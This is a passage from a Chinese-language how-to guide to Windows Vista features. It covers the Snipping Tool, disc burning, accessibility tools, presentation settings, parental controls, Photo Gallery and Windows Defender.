| 3.0 | 3.0 基准分代表了，在等级为 3 的单显示器的电脑上，Windows Aero 能获得较好的表现。 |
| 4.0 | 4.0 基准分代表了电脑性能相当好，可以算是高端产品了，所有 Windows Vista 功能都可以获得不错的性能。 |
| 5.0 | 5.0 基准分代表了最高端的电脑产品：游戏用电脑、高性能台式机、以及高性能媒体中心等。等级为 5 的电脑可以轻松满足 Windows Vista Premium 标志的所有要求，可以在多个显示器上以很高的分辨率运行 Windows Aero 玻璃特效。 |

结语：跟专业测试软件相比，Vista 的硬件评分工具的功能较为简单，而且过分注重了显示卡和内存的重要程度，不能非常准确地体现出真实的硬件水准，广大用户只要用它来做一个参考就可以了，不用过分重视测试所得分数。

## 三、简单、免费的“截图工具”

在日常的电脑使用中，我们经常需要进行截图操作：碰到高兴的事情的时候，需要与朋友分享；碰到故障难题的时候，截个图让帮助你的高手有个直观的了解，诸如此类的需要还真不少。在以前的 Windows 操作系统中，如果我们想截取屏幕图像的话，只能使用键盘上的 Print Screen 键截取全屏图像，或按 Alt+Print Screen 组合键截取当前窗口的图像，然后再粘贴到图形图像处理软件中，众所周知，这样的截图功能是很不好用的，所以我们只能去借助 SnagIt、Hypher Snap-DX 这样的专业截图软件。现在好了，在 Windows Vista 系统中新增了一个小巧、易用的“截图工具”，它不但能让我们轻松地截取屏幕图像，还可以对其进行评注、保存为多种格式并和朋友共享。

### 1. 截图方法

使用“开始”菜单→“附件”→“截图工具”即可启动 Vista 的“截图工具”。第一次运行 Vista“截图工具”的时候，系统会提醒你在快速任务栏中创建一个快捷方式，以方便使用。

技巧：我们也可以直接在 Vista“开始”菜单的搜索框中输入“截图工具”或英文单词 snipping，不等你输完，你就会发现这个程序已经被找到了，也可以采用这种方式启动“截图工具”。

打开“截图工具”的界面后，我们发现这个小巧的工具非常简单易用，没有复杂的设置，稍有电脑基础的人都可以轻松掌握（见图5）。

截图方法如下：单击“新建”按钮右边的小三角按钮，在弹出的下拉菜单中选择截图模式，包括四种选择：任意格式截图、矩形截图、窗口截图和全屏幕截图。选择截图模式后，此时整个屏幕就像被蒙上一层白纱，此时拖动鼠标进行截图操作即可。如果要取消截图操作，单击“取消”按钮即可。下一次截图时，直接单击“新建”按钮，默认会使用上次截图时所使用的截图模式。在四种截图模式中，其他三种都很好理解，“任意格式截图”模式则需要稍作解释：它的使用方法类似于图形图像软件中的“套索”工具，它允许你拖动鼠标，绘制一条围绕对象的不规则线条来实现任意形状的截图，比如圆形、三角形等。



### 2. 添加评注和保存

如图所示，作者将 Vista 侧边栏的一部分给截取了下来，完成截图后，可以看到截图工具的界面发生了小小的变化，多了几个选项。我们可以在截图上使用彩笔来进行批注，使用荧光笔进行突出重点，使用橡皮擦来擦去已经添加的批注。

单击“复制”按钮，可将该截图复制到剪贴板以粘贴到想要的应用程序中，例如 Photoshop、Word。单击“发送截图”按钮，则会调用默认的 Windows Mail 账户，把该截图通过邮箱发送给自己的朋友。单击“保存”按钮，可以把截图保存为 HTML、PNG、GIF 或 JPEG 格式的文件。将截图保存为 JPEG 格式会有一定程度的失真，建议选择 PNG 格式。

用户使用熟练后，可以单击“选项”按钮，对 Vista 截图工具进行简单的定制操作，例如隐藏提示文字、总是将截图复制到剪贴板中、退出前提示保存截图等。

结语：Vista 截图工具的功能比 Windows XP 中有了很大的提升，虽然它与 SnagIt 等专业屏幕截取软件还有很大的差距，例如不能定时截图、不能对图片进行缩放、不能添加批注文字和图形等等，但是 Vista 截图工具已经能够满足普通用户的日常需求了，而且它也有自己的优点：是系统自带软件，不需要安装，而且完全免费。

## 四、自带刻录功能更方便、更强大

在 Windows XP 中，你要先将文件复制到刻录的 CD 或 DVD 中，然后再单击左边的将文件写入 CD 中，再执行光盘刻录向导，才能完成刻录。在 Vista 中，刻录更加方便，只需要把文件复制到刻录的 CD 或 DVD 中即可！

首先，将可写 CD 或 DVD 空白盘片放入刻录机中，此时会弹出“自动播放”对话框，单击“将文件刻录到光盘”（见图6）。



在“刻录光盘”对话框中，键入光盘的名称（默认当天日期作为光盘名称），然后单击“显示格式选项”按钮，展开高级选项，可以看见下面有“Live 文件系统”和“Mastered”两个选项。

在 Vista 中，将文件复制到 CD 或 DVD 之前，必须先使用称为“格式化”的过程来格式化光盘。Vista 提供了一种全新的格式，称为“Live 文件系统”（或“实时文件系统”）。使用“Live 文件系统”格式的光盘通常更便于使用，因为你可以立即复制选定的文件而且复制的频率不受限制，使用这种光盘就类似于使用软盘或闪存盘。并且，使用这种刻录功能对刻录盘并没有特别要求，一次性刻录光盘和可擦写刻录光盘都可以。作者不由感叹，Vista 也太强大了，这下 CDRW 和 DVDRW 盘岂不是没人要了？不过要注意的是，使用“Live 文件系统”，可以随时从刻录盘中删除已复制的文件，但是删除操作会留下一个空文件夹，而且也不能释放刻录盘的可用空间，所以不要多此一举地去删除刻录盘里的东西了。

但是，另一方面，并非所有电脑和设备都可以使用“实时文件系统”光盘。下面是使用“Live 文件系统”和“Mastered”格式化的光盘之间的区别：

- (1) 使用“Live 文件系统”选项格式化的光盘：
  - 使用起来就像 USB 闪存驱动器或软盘，意味着你可以将文件直接复制到光盘而不必刻录这些文件。
  - 如果希望将光盘保留在刻录驱动器中，则在需要时即可复制文件，这样非常方便。
  - 只与 Windows XP 以及更新版本的 Windows 兼容。
- (2) 使用“Mastered”选项格式化的光盘：
  - 不能立即复制文件，意味着你需要选择要复制到光盘的整个文件集合，然后一次性刻录全部文件。
  - 如果希望刻录大量文件的集合，如音乐 CD，则使用这种格式的光盘将非常方便。
  - 与旧版本的电脑以及设备（例如 CD 播放机和 DVD 播放机）兼容。

Vista 自带刻录功能默认使用“Live 文件系统”，你也可以进行更改，然后单击“下一步”按钮将格式化 CD 或 DVD 光盘。

注意：如果需要高度兼容的光盘，以便在使用较低版本 Windows 的电脑或在能够读取数字音乐和视频文件的媒体设备（例如 CD 播放机和 DVD 播放机）中使用，可以选择“Mastered”格式来格式化光盘（见图7）。



使用默认的“实时文件系统”格式对光盘进行格式化可能需要几分钟的时间。当格式化完成时，会打开一个空光盘文件夹。打开包含要刻录文件的文件夹，然后将文件拖到空光盘图标或打开的光盘文件夹中，系统会自动将这些文件复制到光盘。经作者实际操作发现，使用“实时文件系统”格式刻录光盘耗时较久，比在 Nero 里刻录要慢得多。

使用“Mastered”格式刻录光盘的步骤也很类似，只是

## 五、让电脑学会说话：讲述人

长期面对无声的电脑操作，我们难免疲倦。另外，对于一些有视力障碍的人来说，使用电脑是一件很困难的事。不用担心，Vista 中的“讲述人”可以让你的电脑学会说话，不但解决了这部分有生理缺陷的朋友使用电脑的难题，也可以使普通用户使用电脑的过程更加轻松。其实，“讲述人”是一个文本和窗口朗读工具，它能够支持英文、中文的朗读，而且使用上非常智能，我们不用怎么去设置即可让它帮我们朗读出一段文章，或者其他任何的文字（除了图片）。

使用“开始”菜单→“所有程序”→“附件”→“轻松访问”→“讲述人”命令来启动“讲述人”程序；也可以在“开始”菜单的搜索框中输入“讲述人”，没等输入结束就会找到“讲述人”程序，单击启动它。之后，你会听到“正在初始化讲述人……”的语音提示，这时讲述人已经开始工作了。启动完毕后，可以看到讲述人的主界面（见图8）。


默认情况下，“讲述人”选中了“回显用户的击键”，此时程序会读出你所有的键盘按键操作。默认还选中了“宣布系统消息”，所以后台事件（如通知）也会被朗读出来。使用“首选项”→“声音设置”命令，你可以设置语言、说话速度、音量和音调等。

“讲述人”的使用很简单：单击某个窗口使其处于活动状态，“讲述人”就会自动朗读此窗口的相关信息。我们还可以配合快捷键的使用来让“讲述人”朗读特定内容：例如，打开一个记事本文件并使窗口处于活动状态，此时“讲述人”会自动朗读此记事本文件的所有相关信息，如按快捷键“Insert+F6”可阅读当前的段落，按“Insert+F4”阅读当前字词，按“Insert+F7”阅读当前页。更多的快捷键使用方法可以在“讲述人”中单击 F1 键打开帮助文件进行查看。如果不想听“讲述人”朗读，可以单击 Ctrl 键使其停止朗读，或者单击“退出”按钮退出程序。

细心的读者会发现，在 Vista 系统的登录界面中就可以单击“轻松访问”按钮来启动“讲述人”工具，全程帮助你使用 Vista 系统，对于有生理缺陷的用户来说，这样的设计是非常人性化的。

结语：Vista 自带的刻录功能已经非常好了，上手也很简单，而且“Live 文件系统”让刻录更加灵活，简直可以把一次性光盘当可擦写光盘使用！估计 CDRW 和 DVDRW 盘片销量要下降了。

## 六、视力不佳没关系：放大镜

对于视力不佳的朋友，例如中老年人来说，使用电脑会比较困难。而且，随着屏幕的变大、分辨率的提高，正常人观看电脑屏幕也会觉得有点累。这时可以 Vista 全新的放大镜工具来帮助你。在 Vista 的登录界面中，单击“轻松访问”按钮，就可以选择是否启动放大镜工具。另外，你也可以从“开始”菜单→“所有程序”→“附件”→“轻松访问”→“放大镜”来启动它。

启动放大镜程序后，将鼠标指针移到屏幕上要放大的位置，就可以在屏幕上方的放大镜窗口中放大显示。放大镜可以放大桌面上任何的内容。单击任务栏上的放大镜程序将其打开，即可对其进行设置。如果要改变放大比，可以在“外观”选项下的“缩放比例”中选择，在放大效果上，Vista 放大镜工具从原来的最大放大倍数 9X 增加到 16 倍；若要反转颜色以获得更佳的可读性，请选择“反色”。此功能在某些情况下可能非常有用，例如，文档为白色背景黑色文本，而对你来说，黑色背景白色文本更易于阅读。要退出放大镜程序，只需要在下边的任务栏窗口中将其关闭即可。

### (1) 可以改变放大镜窗口位置

在“外观”下的“停靠位置”选项中，可以将放大镜窗口选择放置在屏幕的四个角落：顶部、底部、左侧和右侧。放在哪里是根据看什么内容来决定的，比如阅读横排的文字，当然是放在顶部或者底部更合适。微软还是给大家提供了足够空间的灵活性的。另外放大镜窗口的大小也是可以通过拖放来调节的。

### (2) 放大镜窗口可以被拖动并浮动显示

此时放大镜窗口显示的内容还是追随鼠标指针的。浮动窗口移动过程中，它并不显示任何内容。这样的设计，和人们使用真实的放大镜的行为更加接近。

结语：和记事本、计算器这些小功能比起来，放大镜的使用率一直很低，但是对于有视力障碍的朋友来说，这个功能却非常关键。

## 七、演讲防打扰功能：演示设置

很多人都遇到过这样的问题：用电脑进行一段演讲，突然弹出一个 Windows Live Messenger（原 MSN Messenger）中好友发给你的消息……毫无疑问这将突然打断你的演# Vista 完全攻略

讲，甚至让你在大庭广众下出丑。Windows Vista 中引入了一个新的功能——演讲防打扰，它可以帮助你预防演讲过程中被突然弹出的消息或者声音所打断！也可以选择在演讲时关闭屏幕保护程序，调整扬声器音量，更改桌面背景（演讲时一般需要素雅大方的背景）。

演讲防打扰功能是 Vista 的“Windows 移动中心”的一部分。只提供于移动 PC（笔记本电脑和 Tablet PC），并且 Vista 只有在笔记本电脑中才会自动安装 Windows 移动中心，在台式机里你是找不到相关设置的。在“控制面板”中单击“移动 PC”，然后单击“Windows 移动中心”，即可打开“Windows 移动中心”。

技巧：在笔记本电脑中，还可以通过下述方法快速打开“Windows 移动中心”：在 Windows 右下角托盘区域的电池图标或交流电图标（外接电源时显示为交流电图标，使用电池时显示为电池图标）上单击鼠标右键，选择“Windows 移动中心”命令，即可将其打开（见图9）。

图9 Windows 移动中心，专为移动电脑而设

说明：Windows Vista 带来的改变不仅仅在于界面的华丽与功能的增强，还在其他很多方面做出了有益的改进，特别是操作易用性方面，移动中心就是一例。所谓移动中心，顾名思义，主要针对笔记本电脑或 Tablet PC 用户，是 Windows Vista 针对移动电脑提供的一系列常用工具的集合，它能够有效地帮助移动 PC 用户快捷地完成相关的日常设置，包括亮度调节、声音调节、电池管理、无线管理、外接显示器、同步中心和演示几个部分，通过它就可以省去对笔记本管理的麻烦，不必再分别地深入到控制面板中一级级查找相应的设置。

在演讲之前，你只需在“Windows 移动中心”的“演示关闭”下单击“打开”按钮即可启动演讲防打扰功能。另外，当你将网络投影仪或其他显示器连接到笔记本电脑上时，会自动弹出“检测到的新显示器”对话框，选择“打开演示设置”复选框，再单击“确定”即可启动演讲防打扰功能。

Vista 的演讲防打扰功能阻止 2 种类型的提示信息：系统提示和 Windows Live Messenger 提示。而且，不管你在演讲的过程中是否处于全屏模式，提示框和声音都会被阻止。这意味着如果你登录了 Windows Live Messenger，并且你启用了演讲防打扰功能，观众将不再看到或者听到来自 Windows Live Messenger 的弹出提示。

启动演讲防打扰功能后，当前的桌面背景会变成默认的纯黑色背景，在 Windows 托盘区域将会出现一个投影仪图标，如果要对演讲防打扰功能进行设置，可以在这个投影仪图标上单击右键，选择“自定义演示设置”命令，可以对演示进行设置，设置将会自动保存，并在每次演示时应用这些设置（见图10）。

图10 通过任务栏托盘区域的投影仪图标，可以自定义演示设置或停止演示

当网络投影仪或其他显示器上从笔记本电脑上断开时，Vista 将自动关闭演讲防打扰功能，这时原来的桌面将恢复，Windows Live Messenger 和系统提示也将恢复。你也可以手动关闭演讲防打扰功能：在“Windows 移动中心”的“演示中”下单击“关闭”按钮，或者在任务栏托盘区域的投影仪图标上单击右键，选择“停止演示”命令。

结语：Vista 的设置非常人性化，一些经过认真思考过的功能被添加到了系统中，希望大家能够发现它们的有用之处。

### 八、Tablet PC专辑: 日记本、粘滞便笺和输入面板

Vista 的一项主打功能就是对 Tablet PC 功能的增强，“Windows 日记本”、“粘滞便签”和“Tablet PC 输入面板”这三个工具就是专为 Tablet PC（平板电脑）、数位板（或称为手写板）和笔式显示器使用者设计的。可以从“开始”菜单→“所有程序”→“附件”→“Tablet PC”中可以启动它们。

“Windows 日记本”是一款模仿普通纸质日记本的程序，我们可以使用手写笔或者鼠标在上面涂画，在写入今日心情的同时，也可以画上你最爱的插画，还可以插入图片和文本框。“Windows 日记本”提供了荧光笔和橡皮擦功能，前者可以让你的涂写沾上荧光，后者做得与真正的橡皮擦一样，使用它只会擦写你划过的地方，而不会将整个线条擦除。当然了你想大面积地删除笔迹只需要用“选择工具”划个范围再按 Delete 键就行了。

“Windows 日记本”用起来就像使用普通笔记本一样简单，同时又具有电子日记本的优点：随意写出你想要表达的内容，及时更改、标红，没有格式、字体的限制，真正的随心所欲（见图11）。

图11 Windows 日记本

粘滞便笺是一个不错的私人留言工具，它只有一个简单的界面，就像一张小卡片一样，上设手写区和录音区。当需要在电脑上留言时，可以利用这个便笺写下自己的留言，或者用话筒录下自己想说的话，对方只需要打开软件即可看到或听到你的留言。同时这个工具还支持导入和导出。虽然粘滞便签是一个很简单的工具，却为我们带来了便利。写便签的目的是让朋友查看，所以建议在“工具”→“选项”下选中“启动时打开”和“总在前面”两个选项（见图12）。

许多情况下，用笔手写比打字输入来得更为方便，Vista以非常巧妙的方式提供此选择——输入面板。首先将光标定位到需要输入文字的位置，然后，我们只需要在输入面板上面用手写笔或者鼠标写上文字，它即可帮你识别为标准字体。如果识别有误，可以单击这个字下面的三角按钮，选择正确的文字，或将其清除。输入完毕后，单击“插入”按钮，即可将输入文字插入到输入点。这样一来，我们的手写可随时转换并显示为文字，此外我们还可以用压感笔直接在现有文档上添加注释。输入面板支持中文、日文及英文单字母。另外，输入面板有手写输入与软键盘模式，相互结合使用，可以更好地进行文字内容的输入。使用时，输入面板可以由用户拖动到桌面任何位置，在不需要时候，输入面板则会很好地隐藏于屏幕的左或者右边缘，双击它即可自动回到桌面中央位置，比较人性化（见图13）。

结语：Tablet PC 爱好者一定会为 Vista 的这些改进而感到高兴和兴奋！如果你是普通 PC 用户，又没有安装数位板（手写板），那么使用上面的三个工具时，就只能使用鼠标来手写，你一定会感到操作非常不便！这时你千万别错怪了 Vista，因为这些工具本来就是专为 Tablet PC 设计的。

## 九、让孩子健康用电脑：家长控制

在 Windows Vista 中引入了一个重要功能：家长控制，它可以有效地帮助家长对儿童使用的电脑进行监管，防止未成年人由于自控能力差而误入歧途。家长控制让你能够决定你的孩子如何使用电脑：

- （1）Web 控制：你可以通过设置 Web 限制级别，来限制儿童可以访问的网站，还可以指定是否允许下载文件，还可以阻止或允许特定网站。
- （2）时间控制：只允许孩子在指定时间内使用计算机。你还可以对一个星期的每天分别设定不同的允许登录时间。如果他们登录使用的时间超过了限定，那么他们就会被系统自动踢出。
- （3）游戏控制：控制孩子对游戏的访问，选择年龄分级级别，选择要阻止的内容类型，确定是允许还是阻止未分级游戏或特定游戏。
- （4）程序控制：你可以禁止孩子运行某些程序，例如不想让孩子整天上网聊天，就可以将QQ、Windows Live Messenger这样的软件禁止。

最后，你还可以设置活动报告，这样你就可以知道你的孩子们什么时候使用了计算机，以及在上面做了什么。在“控制面板”的经典视图模式下双击“家长控制”，或者在“开始”菜单搜索框中输入“家长控制”，将其启动。使用家长控制时，首先需要为儿童创建一个普通用户权限的系统账户，单击“创建新用户账户”。为孩子创建账户后，自动进入“用户控制”面板，在“家长设置”下选择“启用，强制当前设置”，并通过管理员权限，在“Windows设置”的各个选项中对孩子的账户进行设置（见图14）。

例如，我们要限制孩子使用电脑的时间，就应该单击“Windows设置”下的“时间限制”，单击并拖动鼠标，选择要组织或允许的时间，如图所示，孩子阿呆被限制在只能在周六和周日的9：00～20：00之间使用电脑（见图15）。又如，我们只想要孩子使用 Office 软件，就应该单击“Windows 设置”下的“允许和阻止特定程序”，然后选中“XX只能使用我允许的程序”，然后在程序列表中勾选 Office 程序，最后单击“确定”按钮即可。

结语：你的孩子一定会对“家长控制”感到十分不满，但是，为了孩子的健康成长，必须确保他们能安全地使用电脑。

### 十、查看、管理和修饰照片的利器:Windows照片库

数码相机和数码摄像机越来越普及了，因为拍摄方便，即拍即得，拍摄成本几乎为零，所以大部分用户都是大量、随意地进行拍摄，不知不觉中电脑硬盘中存放的照片和视频就越来越多，随之而来就是管理问题：要找到某张需要的照片或视频，需要花费不少时间。除此之外，数码照片一般都有些小瑕疵，使用 Photoshop 来进行修饰，操作比较复杂和烦琐，有没有更加简便的方法？现在不用发愁了，Vista新增了“Windows 照片库”工具，专用于查看、导入、管理、共享和修饰电脑里的照片文件，在功能上跟Google Picasa和ACDSee类似。

### 1. 浏览照片

使用“开始”菜单→“所有程序”→“Windows照片库”命令即可启动“Windows照片库”程序，也可以在“开始”菜单的搜索框中输入“照片库”，即可查找到“Windows照片库”程序，单击它即可启动“Windows照片库”主程序界面，默认情况下只会显示 Vista “图片”文件夹里的照片 (见图16)。

“Windows照片库”下方有一个控制栏，单击控制栏上的放大镜按钮可以调节图库中照片的缩略图大小。双击某个照片的缩略图即可进入“Windows照片库”的浏览模式查看照片，在Vista系统中默认使用“Windows照片库”的这种模式来看图，它相当于 Windows XP里的“图片和传真查看器”。在浏览模式下，单击“上一个”和“下一个”按钮可以翻动照片，使用放大镜按钮可以放大或缩小显示照片，单击“放映幻灯片”按钮可以启动全屏模式并自动放映照片。通过单击控制栏上的“逆时针旋转”和“顺时针旋转”按钮，还可以矫正翻转的照片。在照片浏览模式中，单击菜单栏上方的“回到图库”按钮即可回到“Windows照片库”主程序界面。

### 2. 导入照片

要使用“Windows照片库”管理电脑中的相片，首先要将照片添加到它的图库中。

首先我们看看如何将数码相机和扫描仪中的相片导入“Windows照片库”。将数码相机连接到电脑上，Vista内置了海量的驱动，可以识别绝大部分的数码相机，此时会弹出“自动播放”窗口，单击“导入图片”。

此时会打开“正在导入图片和视频”窗口，在“标记这些图片”下输入标记文字，标记文字可以是人物姓名、地址等等，它的作用是方便用户识别。最后单击“导入”按钮，将照片同时导入电脑和“Windows照片库”图库中，照片默认保存在Vista的“图片”文件夹中。

在导入照片前，还可以单击左下方的“选项”，打开“导入设置”窗口进行详细设置，包括导入位置、是否在导入照片后将数码相机里的照片删除等等，最后单击“确定”按钮，将照片导入“Windows照片库”。

照片导入完毕后，将会自动启动“Windows照片库”并显示刚导入的照片。当然，也可以启动“Windows照片库”后，使用“文件”→“从照相机或扫描仪导入”命令，来将外部设备中的照片导入图库中。

如果要将本地硬盘上的照片添加到“Windows照片库”中，则应该选择“文件”→“将文件夹添加到图库中”命令，然后选择包括有照片文件的文件夹即可。另外，在Vista系统中，双击某张照片，默认会调用“Windows照片库”程序来打开并查看这张照片，此时单击工具栏上的“将文件夹添加到图库”中，即可将这张照片所在的文件夹导入到“Windows照片库”的图库中。

### 3. 批量命名

我们知道，从数码相机中保存你的照片时，默认的文件名都是像DSCN0619.JPG或P1010028.JP这样的，难以记忆，为这些文件挨个重命名？那简直是不可思议的，因为将会花费无数的时间。我们可以使用“Windows照片库”来为照片批量改名。按下 Ctrl键来选择照片，或使用 Ctrl+A键来全选文件夹中的所有照片。右击这些图片，选择“重命名”。然后右边的信息窗格中输入名称，例如“动物园”。接着你的每张照片都会被赋予一个相继的数字编号，例如“动物园”、“动物园 (1)”、“动物园 (2)” ……

### 4. 查找照片

前面说过，如果电脑内的照片太多了，查找起来有很大难度，“Windows照片库”就是为解决这个问题而生的。在“Windows照片库”中，有几种查找照片的方式：

- (1) 按拍摄日期查看。在“Windows照片库”左边窗格的“拍摄日期”下单击一个拍摄时间，如“2005年”，再展开具体时间来查看照片。
- (2) 按文件夹查看。在“Windows照片库”左边窗格的“文件夹”下单击某个文件夹，就可以查看这个文件夹里的照片。在文件夹上单击鼠标右键，可以选择“从图库中删除”或“删除”命令，前者只会将照片从“Windows照片库”中删除，也就是说在“Windows照片库”中将不再显示它们，但不会对电脑中的照片造成实际影响，后者会将照片删除到“回收站”中。

除了上面两种查看照片的方式外，也可以单击“最近导入的项”来查看最近导入的照片。

为了更快速、准确地找到照片，我们还可以为照片设置分级、添加标记和标题：

首先，单击上方的“信息”按钮，使主窗口右侧显示“信息”框。然后在“Windows照片库”中选中某张重要照片，通过点击五角星图标，为它设置星级，例如，最重要、最常用的照片可以设置为五星级，不重要的照片则可以不选择分级；通过添加标记，可为图片设置多个关键词，例如“黑白”、“小时候”，你既可以在一张照片上添加多个标记，也可以为多张照片上应用同一个标记；通过添加标题，可以为图片添加说明文字，如“笑得开心”。这里要注意标记和标题的区别，标记描述的是照片的类别，它会显示在“Windows照片库”左边窗格的“标记”下；标题是照片的说明文字，可对照片进行详细描述。

也许大家会感觉上面这些设置稍显繁琐，不过，你一旦进行了设置，以后你在“Windows 照片库”中查找照片将变得轻而易举。在“Windows 照片库”左边窗格中，单击“分级”下的星级，即可看到我们设置了相应星级的照片。单击某种“标记”，如“黑白”，可以查找到所有标记为“黑白”的照片。另外，在“Windows 照片库”上有一个“搜索”栏，输入标记、标题或它们的部分关键字，例如标题为“笑得开心”就输入“笑得开心”或“笑”，没等输入完毕，就会快速找到这张照片，非常迅速和准确。

### 5. 修饰照片

图片浏览器集成简单的编辑功能已经大势所趋，Windows照片库也不例外。在“Windows 照片库”中，选中某张照片后，单击上方的“修复”按钮，可以进入照片处理界面，对图片进行简单修饰，如：裁剪，修正“红眼”，或者是调整它们的颜色。例如，单击“调整曝光”，系统会自动显示亮度、对比度调节滑块。如果你对修改的效果不满意，下方也提供了“撤销”按钮选项（见图17）。

需要注意的是，在“Windows 照片库”中对某张照片进行修改后，在“Windows 照片库”中会看到这张照片已经修改过了，可是当你用其他图像处理软件打开它时，却发现照片毫无变化。实际上，在“Windows 照片库”中对照片进行的修改处理，都不会对实际照片文件产生任何影响，可以随时使用“文件”→“恢复为原始图片”命令来撤销对照片的修改，只有使用“文件”→“制作副本”命令才能将修改后的照片另存下来，微软这样设计的目的，是为了不轻易破坏掉照片原素材。使用过Google Picasa的朋友知道，这一点跟Picasa一模一样。

Vista提供了丰富的多媒体功能绝不是说说而已，“Windows 照片库”还为我们提供了丰富的媒体制作接口：在主界面中，选定所需的照片和视频素材后，使用“刻录”→“数据光盘”命令，可以刻录数据光盘；使用“刻录”→“视频DVD”命令，系统会自动调用Vista自带的“Windows DVD Maker”程序来制作成视频DVD光盘；选择“制作电影”命令，系统将会自动调用“Windows Movie Maker”程序来制作电影。在照片浏览模式中，还可以使用“电子邮件”命令，来调用Windows Mail程序将正在浏览的照片发送给别人。

“Windows 照片库”能够让我们轻松管理和修饰电脑上的照片文件，体现了Vista高度集成的理念，以前需要多个软件完成的事情，现在可以直接在Vista下无缝完成！

### 十一、流氓软件终结者: Windows Defender

“流氓软件”是介于病毒和正规软件之间的软件，包括广告程序、恶意程序和间谍程序等，它同时具备正常功能（下载、媒体播放等）和恶意行为（弹广告、开后门），严重干扰用户的日常工作、数据安全和个人隐私，给用户带来实质性的危害。从2005年开始，流氓软件开始泛滥；引起了广大用户和安全厂商的重视，微软当然也不例外，在Vista系统中集成了Windows Defender程序，它就是原来微软推出过的大受欢迎的Microsoft AntiSpyware，它的作用是检测、清除或隔离擅自安装在电脑上的流氓软件。现在Windows Defender被集成到了Vista系统中，来对付日益猖獗的流氓软件。

### 1. 实时保护

Windows Defender可算是目前市面上最强大的流氓软件清除工具，因为它在扫描查杀的时候会同时对流氓软件添加的文件以及修改的注册表内容进行同步检测和删除，清除得比较干净。如果只是拥有清除流氓软件的功力，那么Windows Defender根本算不上特别，它最大的特点在于当某个可疑的流氓软件试图在电脑上安装或运行的时候，实时保护功能就会立即报警，提醒用户。

在默认情况下，Vista中的Windows Defender的实时保护是开启的，它在无声无息中保护系统安全，平时很难找到它的“踪影”，甚至在任务栏通知区域里也没有图标。但是一旦发现Windows系统遭到间谍软件的危害，它就会立即“现身”帮助我们解决问题（如图所示）。当检测到可疑软件时，可以直接单击该警告框上的“全部删除”按钮，如果不放心的话，还可以单击“审阅”按钮进行查看（见图18）。

这里要提醒用户两点：

- 只有当恶意软件是与其他软件捆绑安装时Windows Defender才会有警报提醒，而当直接安装恶意软件时，它会选择“视而不见”。
- Windows Defender不能阻止针对电脑安全的所有攻击，它应该配合杀毒软件和防火墙软件一起使用，共同捍卫系统安全。另外，像杀毒软件一样，Windows Defender也需要不断更新程序的定义库。

### 2. 系统扫描

除了实时监护外，Windows Defender默认每天都对系统进行扫描，以确保系统安全。

# Vista 完全攻略

对系统进行一次快速扫描，以最大限度地保护我们的系统安全。我们也可以手动进行扫描工作。首先，使用“开始”菜单→“所有程序”→ Windows Defender 命令，打开 Windows Defender 主程序。

**技巧：** 在全新的 Vista “开始”菜单（不是传统的“开始”菜单）的搜索框中输入 “Windows Defender”，你会发现没等输入结束，就能查找到 Windows Defender，单击它即可启动程序。这是 Vista 中比较方便的一个功能，当“开始”菜单中放置了太多程序和项目时，可以通过这种方式快速启动某个程序。

Windows Defender 主程序的界面很简单，只要单击一下“扫描”按钮就可以立即扫描查找间谍软件。众所周知，流氓软件是不断涌现、层出不穷的，为了保证 Windows Defender 拥有最新的反流氓软件能力，一定要使 Windows Defender 的定义为最新。定义是一些文件，可以看作是一本包含了已知流氓软件和其他可能不需要的软件的百科全书，Windows Defender 就依靠这些定义文件来对流氓软件进行判断和操作。值得称赞的是，Windows Defender 的更新集成到 Windows Update 中，只要你开启了 Vista 的自动更新功能，就不再需要额外花费精力来对 Windows Defender 进行更新工作。为了保险起见，你可以在执行扫描之前，使用 Windows Defender 的“工具”→“检查更新”命令，手动更新定义文件。

我们还可以根据需要，选择不同的扫描方式：单击“扫描”按钮右边的三角按钮，在下拉菜单中选择某种扫描方式。

- （1）“快速扫描”：查找间谍软件最常出现的位置，可以在最短的时间里发现大多数间谍软件。
- （2）“全面扫描”：检查电脑上的每个驱动器和文件夹。这种扫描方式非常彻底，但是耗时较多，具体扫描时间取决于硬盘容量及文件数量。
- （3）“自定义扫描”：可以选择需要扫描的驱动器或者文件夹，Windows Defender 会在检查完敏感区域之后，再来扫描你的指定文件夹。如果 Windows Defender 在“自定义扫描”期间检测到了间谍软件，随后会执行“快速扫描”，以便清除或者隔离它。

我们还可以让 Windows Defender 在某个时间自动进行扫描，变得更加智能和自动化：单击“工具”按钮，再单击“设置”下的“选项”，打开 Windows Defender 的配置页面，在“自动扫描”选项下设置扫描计划，可以选择每天或每周某一天的某个时间自动启动 Windows Defender，对系统进行快速扫描或全面扫描。

### 3. 历史记录

在 Windows Defender 的主界面中单击“历史记录”按钮，可以看到“程序和操作”列表，包括检测到的项目、报警级别、执行的操作和项目的当前状态，还可以看到检测到的项目的描述，处理建议，与程序相关的文件位置和注册表键等资源，你可以由此回顾之前 Windows Defender 为你做出的保护。在右下角的“清除历史记录”按钮能让你在 Windows Defender 日志过多之后，一键清理掉这些日志。

单击“允许的项目”链接，可以查看允许运行的项目列表。单击“隔离的项目”链接，可以查看阻止了哪些项目运行，可选择清除或者恢复这些项目。

### 4. 自定义配置

Windows Defender 的自定义配置功能非常强大，而且默认配置就已经可以提供足够的安全防护。当然你还可以更进一步，单击“工具”按钮，再单击“设置”下的“选项”，进入配置页面，用管理员身份来进行自定义：用户可以开启或关闭（不建议）Windows Defender 的实时保护功能，并可以对 Windows Defender 的属性以及动作行为等进行控制。例如，可以选择在发现可疑程序后执行哪些相应动作；可以指定执行扫描过程中跳过哪些文件和文件夹；可以选择是否在清除检测到的流氓软件之前创建恢复点，这样如果某个合法程序的文件不小心被清除，就很容易解决问题；管理员还可以限制 Windows Defender 的管理权限，选择是否让任何人都可以使用 Windows Defender。当然，在默认情况下，任何用户都可以使用 Windows Defender。

另外，单击“工具”按钮后，在“设置”选项下你会看到一个“Microsoft SpyNet”链接，Microsoft SpyNet 是帮助处理间谍软件的在线社区，当你加入之后，你将和其它的成员一起分享对付间谍软件的心得，并给你带来其他成员已经尝试过的解决方案，为你解决相关问题、采取相应措施带来指导。同样，加入社区后，你在 Windows Defender 里选择的操作也将为社区里的其他成员带来帮助。你可以选择“加入基本会员”或“加入高级会员”方式中的一种加入 Microsoft SpyNet。

### 5. 软件资源管理器

和它的前身 Microsoft AntiSpyware 相比，Windows Defender 变化非常大，但是却保留了最精华的部分——软件资源管理器。该功能可以帮助我们详细地了解并配置自启动进程、当前运行任务和网络连接，接下来分别进行描述。

单击 Windows Defender 主页上的“工具”按钮，然后单击“软件资源管理器”，即可进入“软件资源管理器”页面。“软件资源管理器”可帮助你监视下列各项：

- （1）启动程序：启动 Windows 时，无论指示与否，都会自动运行的程序。
